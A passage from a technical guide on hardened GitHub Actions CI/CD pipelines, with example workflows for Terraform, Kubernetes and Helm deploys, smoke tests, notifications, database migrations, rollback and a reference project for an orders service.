          role-to-assume: arn:aws:iam::123456789012:role/gha-terraform-apply-production   # trusts environment:infra-production only
          aws-region: eu-west-1
      - uses: hashicorp/setup-terraform@dfe3c3f87815947d99a8997f908cb6525fc44e9e  # v4.0.1
        with: { terraform_version: 1.13.0, terraform_wrapper: false }
      - uses: actions/download-artifact@3e5f45b2cfb9172054b4087a40e8e0b5a5461e7c  # v8.0.1
        with:
          name: tfplan-production
          path: terraform/envs/production
      - run: terraform init -input=false
      - name: Apply exactly the reviewed plan
        run: terraform apply -input=false -lock-timeout=5m tfplan
```

**What it does.** Plans after merge (read-only role), pauses for human approval in `infra-production`, then applies **the saved plan** with a separate write role.
**Why.** Separating plan and apply roles limits blast radius; applying the saved plan means "what was reviewed is what runs". If state changed since planning, Terraform refuses the stale plan, which is the desired safe failure. Serialization protects the state.
**Security.** The plan artifact is short-lived; anyone with read access to the repo can download artifacts, so for sensitive stacks store plans in an encrypted bucket instead. The apply role trusts only the `environment:infra-production` subject.
**Failure behavior.** A failed apply should alert humans and never auto-retry.
**Infrastructure rollback** is normally a roll-forward (revert the change and apply), since destroyed resources may not come back.

### Example 13: Kubernetes Deployment (kustomize manifests)

```yaml
name: Deploy with kubectl

on:
  workflow_dispatch:
    inputs:
      image-digest:
        type: string
        required: true

permissions:
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    environment: staging
    permissions:
      contents: read
      id-token: write
    concurrency:
      group: deploy-staging
      cancel-in-progress: false
    steps:
      - name: Validate digest
        env: { DIGEST: '${{ inputs.image-digest }}' }
        run: '[[ "$DIGEST" =~ ^sha256:[0-9a-f]{64}$ ]] || { echo "::error::bad digest"; exit 1; }'

      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_ROLE_ARN }}
          aws-region: ${{ vars.AWS_REGION }}
      - uses: azure/setup-kubectl@829323503d1be3d00ca8346e5391ca0b07a9ab0d  # v5.1.0

      - run: aws eks update-kubeconfig --name "$CLUSTER" --region "$AWS_REGION"
        env:
          CLUSTER: ${{ vars.EKS_CLUSTER_NAME }}

      - name: Server-side dry run (schema and admission validation)
        run: kubectl apply -k k8s/overlays/staging --dry-run=server

      - name: Apply manifests
        run: kubectl apply -k k8s/overlays/staging

      - name: Pin the image by digest and wait for rollout
        env:
          IMAGE: ${{ vars.ECR_REPOSITORY_URI }}
          DIGEST: ${{ inputs.image-digest }}
        run: |
          set -euo pipefail
          kubectl -n orders set image deployment/orders-service app="${IMAGE}@${DIGEST}"
          if ! kubectl -n orders rollout status deployment/orders-service --timeout=300s; then
            echo "::error::Rollout failed, undoing"
            kubectl -n orders rollout undo deployment/orders-service
            kubectl -n orders rollout status deployment/orders-service --timeout=300s
            exit 1
          fi
```

**What it does.** Applies kustomize overlays, sets the image by digest, waits for the rollout and undoes it on failure.
**Why.** `--dry-run=server` catches admission and schema problems before touching the cluster. `kubectl rollout undo` is Kubernetes' native rollback.
**Alternatives.** Helm (Example 6) manages release history and values more richly; GitOps avoids giving the pipeline cluster credentials at all.

### Example 14: Helm Deployment and Chart CI

The deployment is Example 6. The chart itself needs CI, and it must deploy **by digest**.

Chart snippet (`helm/orders-service/templates/deployment.yaml`, image line):

```yaml
          image: '{{ .Values.image.repository }}@{{ required "image.digest is required" .Values.image.digest }}'
```

Chart CI:

```yaml
name: Helm chart CI

on:
  pull_request:
    paths: ['helm/**']

permissions:
  contents: read

jobs:
  chart:
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: azure/setup-helm@9bc31f4ebc9c6b171d7bfbaa5d006ae7abdb4310  # v5.0.1
        with: { version: v3.19.0 }
      - name: Lint and render for every environment
        run: |
          set -euo pipefail
          zeros=$(printf '0%.0s' {1..64})
          digest="sha256:${zeros}"
          for env in dev staging production; do
            helm lint ./helm/orders-service --strict -f "helm/values-${env}.yaml" \
              --set image.repository=example.com/orders --set "image.digest=${digest}"
            helm template orders ./helm/orders-service -f "helm/values-${env}.yaml" \
              --set image.repository=example.com/orders --set "image.digest=${digest}" > "/tmp/${env}.yaml"
          done
```

Add `kubeconform` (download a **pinned version and verify its checksum**) to validate rendered manifests against Kubernetes schemas, and a policy check (kube-linter, Kyverno CLI). Because this workflow uses `paths`, it must not be your only required check; fold it into the CI gate through a change-detection job if you require it.

### Example 15: Smoke Tests (reusable)

`.github/workflows/smoke-tests.yml`

```yaml
name: Smoke tests (reusable)

on:
  workflow_call:
    inputs:
      base-url:
        type: string
        required: true
      expected-sha:
        type: string
        required: false
        default: ''

permissions:
  contents: read

jobs:
  smoke:
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with:
          persist-credentials: false
          sparse-checkout: scripts
      - name: Run smoke tests
        env:
          BASE_URL: ${{ inputs.base-url }}
          EXPECTED_SHA: ${{ inputs.expected-sha }}
        run: ./scripts/smoke-test.sh "$BASE_URL" "$EXPECTED_SHA"
```

`scripts/smoke-test.sh` (runnable locally, which is the point):

```bash
#!/usr/bin/env bash
set -euo pipefail
base="${1:?base url}"; expected="${2:-}"

# 1. Readiness, with retries to tolerate warm-up
curl --fail --silent --show-error --max-time 10 \
     --retry 12 --retry-delay 5 --retry-connrefused \
     "$base/actuator/health/readiness" | jq -e '.status == "UP"' >/dev/null
echo "readiness OK"

# 2. Is the NEW version actually serving?
if [[ -n "$expected" ]]; then
  deployed=$(curl --fail --silent --max-time 10 "$base/actuator/info" | jq -r '.git.commit.id // empty')
  [[ -n "$deployed" && "$expected" == "$deployed"* ]] \
    || { echo "::error::Deployed commit '$deployed' != expected '$expected'"; exit 1; }
  echo "version OK ($deployed)"
fi

# 3. One critical business call (read-only)
curl --fail --silent --max-time 10 "$base/api/v1/orders/health" >/dev/null
echo "critical path OK"
```

**Why.** "Deploy exit code 0" is not proof. The version check prevents a false pass from old pods still serving. Retries handle rollout warm-up. Keep smoke tests few, fast, read-only and stable. (Assumes Spring Boot's `git.properties` is exposed by Actuator info.)

### Example 16: Slack Notification (reusable)

`.github/workflows/notify.yml`

```yaml
name: Notify (reusable)

on:
  workflow_call:
    inputs:
      environment: { type: string, required: true }
      status:      { type: string, required: true }   # started | success | failure | cancelled | skipped
      version:     { type: string, required: true }
    secrets:
      SLACK_WEBHOOK_URL:
        required: true

permissions: {}

jobs:
  slack:
    runs-on: ubuntu-24.04
    timeout-minutes: 5
    steps:
      - name: Post to Slack
        env:
          SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
          ENVIRONMENT: ${{ inputs.environment }}
          STATUS: ${{ inputs.status }}
          VERSION: ${{ inputs.version }}
          ACTOR: ${{ github.actor }}
          RUN_URL: ${{ github.server_url }}/${{ github.repository }}/actions/runs/${{ github.run_id }}
        run: |
          set -euo pipefail
          case "$STATUS" in
            success)   icon=":white_check_mark:" ;;
            failure)   icon=":x:" ;;
            cancelled) icon=":no_entry:" ;;
            started)   icon=":arrow_forward:" ;;
            *)         icon=":grey_question:" ;;
          esac
          text="${icon} *${ENVIRONMENT}* deploy *${STATUS}* — \`${VERSION:0:12}\` by ${ACTOR} — <${RUN_URL}|run>"
          payload=$(jq -n --arg text "$text" '{text: $text}')
          curl --fail --silent --show-error --max-time 15 --retry 3 \
               -H 'Content-Type: application/json' -d "$payload" "$SLACK_WEBHOOK_URL"
```

**Design.** Called explicitly at meaningful points (production started/succeeded/failed, rollback). No third-party action, so no extra supply-chain dependency. `jq --arg` escapes text. Explicit secret pass-through (no `secrets: inherit`).

### Example 17: Discord Notification

```yaml
      - name: Post to Discord
        env:
          DISCORD_WEBHOOK_URL: ${{ secrets.DISCORD_WEBHOOK_URL }}
          ENVIRONMENT: ${{ inputs.environment }}
          STATUS: ${{ inputs.status }}
          VERSION: ${{ inputs.version }}
          RUN_URL: ${{ github.server_url }}/${{ github.repository }}/actions/runs/${{ github.run_id }}
        run: |
          set -euo pipefail
          color=9807270; [[ "$STATUS" == "success" ]] && color=5763719; [[ "$STATUS" == "failure" ]] && color=15548997
          payload=$(jq -n --arg title "${ENVIRONMENT} deploy ${STATUS}" \
                           --arg desc "Version \`${VERSION:0:12}\`" \
                           --arg url "$RUN_URL" --argjson color "$color" \
            '{username: "CI/CD", embeds: [{title: $title, description: $desc, url: $url, color: $color}]}')
          curl --fail --silent --show-error --max-time 15 --retry 3 \
               -H 'Content-Type: application/json' -d "$payload" "$DISCORD_WEBHOOK_URL"
```

Microsoft Teams works similarly with a Workflows/incoming-webhook URL and a card payload. Treat every webhook URL as a secret.

### Example 18: Failure Notification (central `workflow_run` notifier)

```yaml
name: Notify on failed pipelines

on:
  workflow_run:
    workflows: [CI, Pipeline]
    types: [completed]
    branches: [main]

permissions: {}

jobs:
  failed:
    if: ${{ github.event.workflow_run.conclusion == 'failure' }}
    runs-on: ubuntu-24.04
    timeout-minutes: 5
    steps:
      - name: Alert channel about failure on main
        env:
          SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
          WORKFLOW: ${{ github.event.workflow_run.name }}
          RUN_URL: ${{ github.event.workflow_run.html_url }}
          SHA: ${{ github.event.workflow_run.head_sha }}
          ACTOR: ${{ github.event.workflow_run.actor.login }}
        run: |
          set -euo pipefail
          text=":rotating_light: *${WORKFLOW}* failed on main (\`${SHA:0:7}\` by ${ACTOR}) <${RUN_URL}|view>"
          payload=$(jq -n --arg t "$text" '{text:$t}')
          curl --fail -sS --max-time 15 -H 'Content-Type: application/json' -d "$payload" "$SLACK_WEBHOOK_URL"
```

**Why.** One notifier for many workflows; only `main` failures; no PR noise. **Security:** it runs from the default branch and reads only metadata (workflow name, URL, SHA, actor), all passed through `env`; it never checks out or executes anything from the triggering run and deliberately excludes commit messages and branch names (attacker-controlled).

### Example 19: Monorepo CI

The complete workflow is in **Chapter 23.3**: a `changes` job (path filter), a dynamic matrix (`fromJSON`), Maven `-pl <module> -am` to build only affected modules plus their dependencies, and a single `ci-gate`. Two additions for production:

```yaml
concurrency:
  group: deploy-${{ matrix.service }}-${{ inputs.environment }}   # per-service deploy locks, not one global lock
  cancel-in-progress: false
```

and cache keys that include the service name (`key: maven-${{ runner.os }}-${{ matrix.service }}-${{ hashFiles(format('services/{0}/pom.xml', matrix.service)) }}`).

### Example 20: Reusable Organization Workflow

The full definition and caller are in **Chapter 21.2**. The production hardening of that pattern:

```yaml
# In every service repo: a thin caller, pinned to a SHA of the platform repo.
# This workflow needs no secrets, so none are passed (never use `secrets: inherit` by habit).
name: CI
on:
  pull_request:
  merge_group:
permissions:
  contents: read
jobs:
  ci:
    uses: ORG/platform/.github/workflows/java-ci.yml@<full-sha>   # Dependabot bumps this
    with:
      java-version: '21'
```

The platform repository publishes semantic-version tags with immutable releases, documents breaking-change policy, and rolls out changes to canary repositories first.

### Example 21: Matrix Testing (database versions)

```yaml
name: Compatibility matrix

on:
  pull_request:
    paths: ['src/**', 'pom.xml']
  schedule:
    - cron: '41 4 * * 1'      # weekly full matrix

permissions:
  contents: read

jobs:
  compat:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    strategy:
      fail-fast: false
      matrix:
        java: ['21']
        postgres: ['15.8', '16.4']
        include:
          - java: '25'
            postgres: '16.4'
    services:
      postgres:
        image: postgres:${{ matrix.postgres }}
        env: { POSTGRES_USER: app, POSTGRES_PASSWORD: app, POSTGRES_DB: app_test }
        ports: ['5432:5432']
        options: >-
          --health-cmd "pg_isready -U app -d app_test"
          --health-interval 5s --health-timeout 5s --health-retries 12
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with:
          distribution: temurin
          java-version: ${{ matrix.java }}
          cache: maven
      - run: mvn -B -ntp verify -Pintegration
        env:
          SPRING_DATASOURCE_URL: jdbc:postgresql://localhost:5432/app_test
          SPRING_DATASOURCE_USERNAME: app
          SPRING_DATASOURCE_PASSWORD: app
```

**Why.** Run only versions you *support* in production; use `fail-fast: false` to see all failures; keep the PR matrix small and run the full matrix weekly. `include` adds one extra experimental combination without multiplying the whole grid.

### Example 22: Database Migration

`.github/workflows/migrate.yml`

```yaml
name: Database migration (reusable)

on:
  workflow_call:
    inputs:
      environment:
        type: string
        required: true
      migration-image:
        description: Image (repository@digest) containing Flyway and the migration SQL
        type: string
        required: true

permissions:
  contents: read

jobs:
  migrate:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    environment: ${{ inputs.environment }}          # production approval applies here
    permissions:
      contents: read
      id-token: write
    concurrency:
      group: migrate-${{ inputs.environment }}       # serialize; NEVER cancel a migration
      cancel-in-progress: false
    steps:
      - name: Validate image reference
        env: { IMAGE: '${{ inputs.migration-image }}' }
        run: '[[ "$IMAGE" =~ ^[a-z0-9./_:-]+@sha256:[0-9a-f]{64}$ ]] || { echo "::error::image must be pinned by digest"; exit 1; }'

      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_MIGRATION_ROLE_ARN }}      # separate role from the app deploy role
          aws-region: ${{ vars.AWS_REGION }}
      - uses: azure/setup-kubectl@829323503d1be3d00ca8346e5391ca0b07a9ab0d  # v5.1.0
      - run: aws eks update-kubeconfig --name "$CLUSTER" --region "$AWS_REGION"
        env: { CLUSTER: '${{ vars.EKS_CLUSTER_NAME }}' }

      - name: Pre-migration snapshot (production only)
        if: ${{ startsWith(inputs.environment, 'production') }}   # production-db and production
        env:
          DB_ID: ${{ vars.DB_INSTANCE_ID }}
        run: |
          snap="pre-migration-${GITHUB_RUN_ID}"
          aws rds create-db-snapshot --db-instance-identifier "$DB_ID" --db-snapshot-identifier "$snap"
          aws rds wait db-snapshot-available --db-snapshot-identifier "$snap"
          echo "Snapshot \`$snap\` created before migration" >> "$GITHUB_STEP_SUMMARY"

      - name: Run Flyway as a Kubernetes Job
        env:
          IMAGE: ${{ inputs.migration-image }}
        run: |
          set -euo pipefail
          job="flyway-${GITHUB_RUN_ID}-${GITHUB_RUN_ATTEMPT}"
          sed -e "s|__JOB_NAME__|${job}|" -e "s|__IMAGE__|${IMAGE}|" k8s/migrate-job.yaml | kubectl -n orders apply -f -
          if ! kubectl -n orders wait --for=condition=complete "job/${job}" --timeout=900s; then
            echo "::error::Migration did not complete. Logs follow."
            kubectl -n orders logs "job/${job}" --tail=200 || true
            exit 1
          fi
          kubectl -n orders logs "job/${job}" --tail=100
          kubectl -n orders delete "job/${job}" --wait=false
```

`k8s/migrate-job.yaml` (excerpt):

```yaml
apiVersion: batch/v1
kind: Job
metadata:
  name: __JOB_NAME__
spec:
  backoffLimit: 0                 # never auto-retry a migration
  ttlSecondsAfterFinished: 3600
  template:
    spec:
      restartPolicy: Never
      serviceAccountName: flyway-migrator     # IRSA role with DB migration credentials
      containers:
        - name: flyway
          image: __IMAGE__
          args: ["migrate"]
          env:
            - name: FLYWAY_LOCK_RETRY_COUNT
              value: "10"
            - name: FLYWAY_CONNECT_RETRIES
              value: "5"
```

**Ordering in the pipeline.** `migrate` (expand phase) runs **before** `deploy`; contract-phase migrations ship in a later release. **Why a Kubernetes Job:** the runner never needs network access to the private database, and credentials stay in the cluster. **Safety:** approvals via the environment, serialization, a snapshot, `backoffLimit: 0`, lock/statement timeouts configured in the migration SQL/Flyway settings, and a fail-stop pipeline. Rollback: Chapter 33 (application rollback is safe because migrations are backward-compatible).

### Example 23: Rollback

`.github/workflows/rollback.yml`

```yaml
name: Rollback

on:
  workflow_dispatch:
    inputs:
      environment:
        description: Environment to roll back
        type: environment
        required: true
      image-digest:
        description: 'Known-good digest to redeploy (sha256:...)'
        type: string
        required: true
      reason:
        description: Why are we rolling back? (recorded in the run name)
        type: string
        required: true

run-name: Rollback ${{ inputs.environment }} by @${{ github.actor }}

permissions:
  contents: read

jobs:
  rollback:
    uses: ./.github/workflows/deploy.yml            # same tested deploy core
    with:
      environment: ${{ inputs.environment }}
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ inputs.image-digest }}
    permissions:
      contents: read
      id-token: write

  announce:
    needs: rollback
    if: ${{ always() }}
    uses: ./.github/workflows/notify.yml
    with:
      environment: ${{ inputs.environment }}
      status: ${{ needs.rollback.result }}
      version: rollback-${{ github.run_id }}
    secrets:
      SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
    permissions: {}
```

**Why.** A rollback is a deployment of an older digest through the **same** path, with the same approvals, OIDC, concurrency and smoke tests. There is no second, less-tested "emergency" mechanism. For speed in incidents, give the production environment a small on-call reviewer group. For a rapid infrastructure-level revert without a pipeline run, the on-call runbook may use `helm rollback`, but the workflow route leaves an audit trail.
**Database.** No database step: expand/contract migrations mean the old app version runs on the new schema. Data restores are an incident procedure, not part of this workflow.

### Example 24: Dependency Update Automation

`.github/dependabot.yml`

```yaml
version: 2
updates:
  - package-ecosystem: maven
    directory: /
    schedule: { interval: weekly, day: monday, time: '06:00', timezone: Etc/UTC }
    open-pull-requests-limit: 5
    cooldown:
      default-days: 5              # let new releases age before proposing them
    groups:
      spring-boot:
        patterns: ['org.springframework*']
      minor-and-patch:
        update-types: [minor, patch]

  - package-ecosystem: github-actions
    directory: /
    schedule: { interval: weekly }
    cooldown:
      default-days: 5
    groups:
      actions:
        patterns: ['*']

  - package-ecosystem: docker
    directory: /
    schedule: { interval: weekly }

  - package-ecosystem: terraform
    directory: /terraform/envs/production
    schedule: { interval: weekly }
```

Enforce SHA pinning as a CI check (in `security.yml`):

```yaml
  pinned-actions:
    runs-on: ubuntu-24.04
    timeout-minutes: 5
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - name: Fail on any third-party action not pinned to a full SHA
        run: |
          set -euo pipefail
          bad=$(grep -RnE '^\s*-?\s*uses:\s+[A-Za-z0-9_.-]+/[^ @]+@' .github \
                | grep -vE '@[0-9a-f]{40}( |$)' | grep -v 'uses: \./' || true)
          if [[ -n "$bad" ]]; then echo "::error::Unpinned actions:"; echo "$bad"; exit 1; fi
```

**Why.** Dependabot keeps libraries, base images, Terraform providers and **the actions themselves** current; a cooldown reduces exposure to freshly published (possibly malicious) releases. Grouping reduces PR noise. Dependabot-triggered workflow runs have a read-only token and no secrets, so your PR checks must not need them. Merge via normal review plus green CI (optionally enable auto-merge for patch updates through repository settings and rulesets, after reading the current Dependabot docs on token permissions).

### Example 25: Complete End-to-End CI/CD Pipeline

This is the capstone. It is long enough to live in its own chapter: **Chapter 46** contains the complete reference project with the orchestrating `pipeline.yml`, the reusable `docker.yml`, `deploy.yml` (Example 6), `smoke-tests.yml`, `notify.yml`, `migrate.yml`, `release.yml`, Terraform workflows and `security.yml`, plus how they interact.

---

# Part 11: Architecture, Practice and Judgment

## Chapter 45. Production Architecture Patterns

### Pattern A: Simple backend

```mermaid
flowchart LR
    PR["PR"] --> CI["CI"] --> M["Merge"] --> B["Build"] --> D["Deploy"]
```

Small service, one environment (or dev plus prod), deployed to a VM, PaaS or single cluster. One `ci.yml`, one `deploy.yml`. **Use when:** one team, low blast radius, a PaaS that handles rollout. **Watch for:** deploying by rebuilding, missing rollback, no smoke test.

### Pattern B: Multi-environment with promotion

```mermaid
flowchart LR
    PR["PR"] --> CI["CI"] --> BA["Build artifact"] --> DEV["Dev"] --> STG["Staging"] --> AP{"Approval"} --> PRD["Production"]
```

Same artifact promoted; environments carry config and protection. **Use when:** you need a safe staging rehearsal and human control. This is the default recommendation.

### Pattern C: Containerized backend

```mermaid
flowchart LR
    G["Git"] --> T["Test"] --> DB["Docker build"] --> SC["Scan"] --> PI["Push image"] --> DP["Deploy by digest"]
```

Image is the artifact; registry is the source of truth; digest is the identity. **Use when:** any container platform (ECS, Kubernetes, Cloud Run, App Service for containers).

### Pattern D: Kubernetes

```mermaid
flowchart LR
    G["Git"] --> CI["CI"] --> C["Container"] --> R["Registry"] --> H["Helm"] --> K["Kubernetes"] --> S["Smoke test"]
```

Helm (or Kustomize) renders manifests; Kubernetes performs the rolling update; probes gate readiness. Variation: replace `Helm` with a commit to a GitOps repo and let Argo CD/Flux reconcile. **Use when:** you run Kubernetes. **Watch for:** giving the pipeline cluster-admin; use a namespace-scoped role.

### Pattern E: Infrastructure plus application

```mermaid
flowchart TB
    subgraph INFRA["Infrastructure pipeline"]
        TPR["PR: terraform plan (read-only role)"] --> TAP["Merge: approval, terraform apply (write role)"]
    end
    subgraph APP["Application pipeline"]
        AC["CI"] --> AI["Image by digest"] --> AD["Deploy"]
    end
    TAP -->|"creates clusters, databases, roles"| AD
```

Two pipelines with **different cadences, roles and approvals**. Infrastructure changes are rarer and riskier; application changes are frequent. Keep them in separate workflows (possibly separate repositories) with separate OIDC roles. **Watch for:** application pipeline creating infrastructure implicitly; shared state locks; ordering when a change needs both (infrastructure first, backward compatible).

| Pattern | Team size | Risk | Tooling cost |
|---|---|---|---|
| A | 1-5 | Low | Minimal |
| B | 5-30 | Medium | Moderate |
| C | Any container platform | Medium | Moderate |
| D | Platform teams | Medium-high | Higher |
| E | Serious production | High | Highest, but proportionate |

---

## Chapter 46. The Complete Reference Project

We design the CI/CD system for a hypothetical **`orders-service`**: Spring Boot (Java 21, Maven), PostgreSQL with Flyway, containerized, deployed with Helm to EKS in dev, staging and production via AWS OIDC.

### 46.1 Repository layout

```text
orders-service/
├── src/main/java/...
├── src/main/resources/db/migration/          # Flyway: V1__init.sql, V2__add_status.sql ...
├── src/test/java/...
├── pom.xml
├── Dockerfile                                # app image (multi-stage, non-root)
├── Dockerfile.migrate                        # Flyway + migrations image
├── helm/
│   ├── orders-service/                       # chart; image by digest
│   ├── values-dev.yaml
│   ├── values-staging.yaml
│   └── values-production.yaml
├── k8s/migrate-job.yaml
├── terraform/
│   ├── modules/
│   └── envs/{dev,staging,production}/
├── scripts/smoke-test.sh
└── .github/
    ├── CODEOWNERS
    ├── dependabot.yml
    ├── actions/setup-java-maven/action.yml   # composite: JDK + Maven cache
    └── workflows/
        ├── ci.yml                 # PR + merge queue checks; also callable
        ├── security.yml           # CodeQL, dependency review, pin check, scorecard
        ├── docker.yml             # reusable: build, push, scan, attest (build.yml + docker.yml)
        ├── pipeline.yml           # main-branch orchestrator: dev → staging → production
        ├── deploy.yml             # reusable deploy core (deploy-dev/staging/production)
        ├── migrate.yml            # reusable DB migration
        ├── smoke-tests.yml        # reusable verification
        ├── deploy-production.yml  # manual / hotfix path
        ├── rollback.yml
        ├── release.yml
        ├── terraform-plan.yml
        ├── terraform-apply.yml
        ├── notify.yml             # reusable notifications
        └── notify-failures.yml    # workflow_run failure notifier
```

**Mapping to a flat list of per-environment files.** Instead of three near-identical `deploy-dev.yml`, `deploy-staging.yml`, `deploy-production.yml`, there is **one** reusable `deploy.yml` (Example 6) and *jobs in `pipeline.yml`* that call it with different environments. Duplication is the enemy; environment differences live in GitHub environment variables, secrets and rules.

### 46.2 How the workflows interact

```mermaid
flowchart TB
    PRt["pull_request / merge_group"] --> CI["ci.yml"]
    PRt --> SEC["security.yml"]
    PRt --> TFP["terraform-plan.yml"]
    PUSH["push to main"] --> PIPE["pipeline.yml"]
    PIPE --> CI
    PIPE --> DOCK["docker.yml (build, scan, attest)"]
    PIPE --> MIG["migrate.yml"]
    PIPE --> DEP["deploy.yml"]
    PIPE --> SMK["smoke-tests.yml"]
    PIPE --> NOT["notify.yml"]
    MANUAL["workflow_dispatch"] --> DPROD["deploy-production.yml"] --> DEP
    MANUAL --> RB["rollback.yml"] --> DEP
    TAG["push tag v*"] --> REL["release.yml"]
    PIPE -.->|"workflow_run (failed)"| NF["notify-failures.yml"]
    SCHED["schedule"] --> SEC
    TFAP["push: terraform/**"] --> TFA["terraform-apply.yml"]
```

### 46.3 Environments, variables and roles

| Environment | Reviewers | Branch/tag policy | Variables (same names everywhere) | Cloud role (OIDC `sub`) |
|---|---|---|---|---|
| `dev` | none | `main` | `AWS_ROLE_ARN`, `AWS_REGION`, `EKS_CLUSTER_NAME`, `SERVICE_URL`, `AWS_MIGRATION_ROLE_ARN`, `DB_INSTANCE_ID` | `repo:ORG/orders-service:environment:dev` |
| `staging` | none | `main` | same names | `...:environment:staging` |
| `production-db` | DBA group (2) | `main` | same names | `...:environment:production-db` (migration role only) |
| `production` | Release managers (2), prevent self-review | `main` | same names | `...:environment:production` (deploy role only) |
| `infra-production` | Platform group | `main` | | `...:environment:infra-production` (Terraform apply role) |

Repository-level variables: `ECR_REPOSITORY_URI`, `ECR_MIGRATION_REPOSITORY_URI`, `ECR_REPOSITORY_NAME`, `AWS_BUILD_ROLE_ARN` (trust: `ref:refs/heads/main`, push permission to ECR only), `AWS_ECR_READ_ROLE_ARN` (pull only). Secrets: `SLACK_WEBHOOK_URL` (repository), `E2E_API_KEY` (staging environment). There are **no cloud secrets**.

### 46.4 `docker.yml`: reusable build, scan, attest

```yaml
name: Docker (reusable)

on:
  workflow_call:
    outputs:
      digest:
        description: App image digest
        value: ${{ jobs.image.outputs.digest }}
      migration-digest:
        description: Migration image digest
        value: ${{ jobs.image.outputs.migration-digest }}

permissions:
  contents: read

jobs:
  image:
    runs-on: ubuntu-24.04
    timeout-minutes: 40
    permissions:
      contents: read
      id-token: write         # AWS OIDC and provenance signing
      attestations: write     # store the attestation
      security-events: write  # scan results
    outputs:
      digest: ${{ steps.app.outputs.digest }}
      migration-digest: ${{ steps.migrate.outputs.digest }}
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }

      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_BUILD_ROLE_ARN }}
          aws-region: ${{ vars.AWS_REGION }}

      - uses: aws-actions/amazon-ecr-login@03f1aad4c6c7ffd436567f42f9384779290529bd  # v2.1.7

      - uses: docker/setup-buildx-action@f87e5991a6d7451dcb8d9637bfbc97413f497069  # v4.4.1

      - id: meta
        uses: docker/metadata-action@dc802804100637a589fabce1cb79ff13a1411302  # v6.2.0
        with:
          images: ${{ vars.ECR_REPOSITORY_URI }}
          tags: type=sha,format=short

      - id: app
        name: Build and push app image
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          file: Dockerfile
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          provenance: mode=max
          sbom: true

      - name: Scan the pushed image BY DIGEST (fixable HIGH/CRITICAL fail the pipeline)
        uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25  # v0.36.0
        with:
          image-ref: ${{ vars.ECR_REPOSITORY_URI }}@${{ steps.app.outputs.digest }}
          format: table
          severity: CRITICAL,HIGH
          ignore-unfixed: true
          exit-code: '1'

      - name: Attest build provenance
        uses: actions/attest-build-provenance@4d101475d8b20a2381f78447822ac1eab6504dd8  # v4.2.2
        with:
          subject-name: ${{ vars.ECR_REPOSITORY_URI }}
          subject-digest: ${{ steps.app.outputs.digest }}
          push-to-registry: true

      - id: migrate
        name: Build and push migration image
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          file: Dockerfile.migrate
          push: true
          tags: ${{ vars.ECR_MIGRATION_REPOSITORY_URI }}:sha-${{ github.sha }}
          cache-from: type=gha,scope=migrate
          cache-to: type=gha,mode=max,scope=migrate
```

**Why it is shaped this way.** The image is scanned **by the digest that will be deployed** (fixing Example 4's caveat); the pipeline only proceeds to deployment if the scan and attestation succeed. The build role can push to ECR but cannot deploy. There is no `latest`. The workflow is reusable so the same logic builds from `main` or a hotfix branch.

### 46.5 `pipeline.yml`: the orchestrator

```yaml
name: Pipeline

on:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  test:
    uses: ./.github/workflows/ci.yml
    permissions:
      contents: read
      pull-requests: read

  build:
    needs: test
    uses: ./.github/workflows/docker.yml
    permissions:
      contents: read
      id-token: write
      attestations: write
      security-events: write

  is-latest:
    name: Is this still the tip of main?
    needs: build
    runs-on: ubuntu-24.04
    timeout-minutes: 5
    permissions:
      contents: read
    outputs:
      latest: ${{ steps.check.outputs.latest }}
    steps:
      - id: check
        env:
          GH_TOKEN: ${{ github.token }}
          REPO: ${{ github.repository }}
        run: |
          tip=$(gh api "repos/${REPO}/commits/main" --jq .sha)
          if [[ "$tip" == "$GITHUB_SHA" ]]; then echo "latest=true" >> "$GITHUB_OUTPUT"
          else echo "latest=false" >> "$GITHUB_OUTPUT"; echo "::notice::Newer commit exists; a newer run will deploy it"; fi

  migrate-dev:
    needs: [build, is-latest]
    if: ${{ needs.is-latest.outputs.latest == 'true' }}
    uses: ./.github/workflows/migrate.yml
    with:
      environment: dev
      migration-image: ${{ vars.ECR_MIGRATION_REPOSITORY_URI }}@${{ needs.build.outputs.migration-digest }}
    permissions:
      contents: read
      id-token: write

  deploy-dev:
    needs: [build, migrate-dev]
    uses: ./.github/workflows/deploy.yml
    with:
      environment: dev
